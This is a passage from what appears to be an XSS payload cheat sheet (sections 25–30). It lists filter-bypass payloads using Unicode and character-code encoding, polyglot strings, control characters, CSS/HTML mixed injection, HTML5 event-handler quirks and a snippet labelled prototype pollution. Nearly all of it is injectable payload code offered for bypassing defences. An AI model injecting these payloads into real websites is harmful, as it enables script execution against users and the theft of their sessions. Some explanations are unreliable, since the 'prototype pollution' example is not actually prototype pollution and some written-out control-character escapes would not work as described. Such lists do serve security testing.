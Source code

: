 ### **25. UTF-16/Unicode Encoding**
Payloads that use alternative character encodings to bypass security.

```html
<script>alert('\u0041\u0042\u0043')</script>  // Unicode for "ABC"
<script>alert(String.fromCharCode(88,83,83))</script>  // XSS in character codes
<svg onload=\u0061\u006c\u0065\u0072\u0074(1)>  // Unicode for alert(1)
```

### **26. Polyglot XSS Payloads**
Polyglot payloads can execute as HTML, JavaScript, CSS, or other contexts to ensure broad applicability.

```html
"><img src=x onerror=alert(1)>'"><script>alert(1)</script>
"><svg onload="alert('XSS')"></svg> --><p " --><svg onload=alert(1)></svg>
'";alert(String.fromCharCode(88,83,83))//</script>
```

### **27. Using Non-Printable Characters**
Use control characters to bypass filters that do not handle them properly.

```html
<svg/onload=\x0Aalert(1)>
<script>alert('XSS')</script>\x0B  // Non-printable characters
```

### **28. Mixed Context Injection**
Payloads that abuse JavaScript, HTML, and CSS mixed together.

```html
<style>@keyframes x{}</style><div style="animation-name:x" onanimationstart="alert(1)"></div>
"><style>body{background:url("javascript:alert('XSS')")}</style>
"><iframe src="javascript:`/*--><svg onload=alert(1)><!--*/`"></iframe>
```

### **29. HTML5 Cross-Browser Quirks**
Exploiting specific quirks across different HTML5 elements and attributes.

```html
<object type="image/svg+xml" data="data:image/svg+xml,<svg xmlns='http://www.w3.org/2000/svg'><script>alert('XSS')</script></svg>"></object>
<video><source onerror="alert('XSS')"></video>
<xss id="test"/x="><img src=x onerror=alert(1)>">
<div draggable="true" ondrag="alert('XSS')">Drag me</div>
```

### **30. JavaScript Prototype Pollution**
Using prototype pollution to trigger JavaScript execution.

```html
<script>
  Object.prototype.x = function() {alert('XSS')};
  [].x();
</script>
```
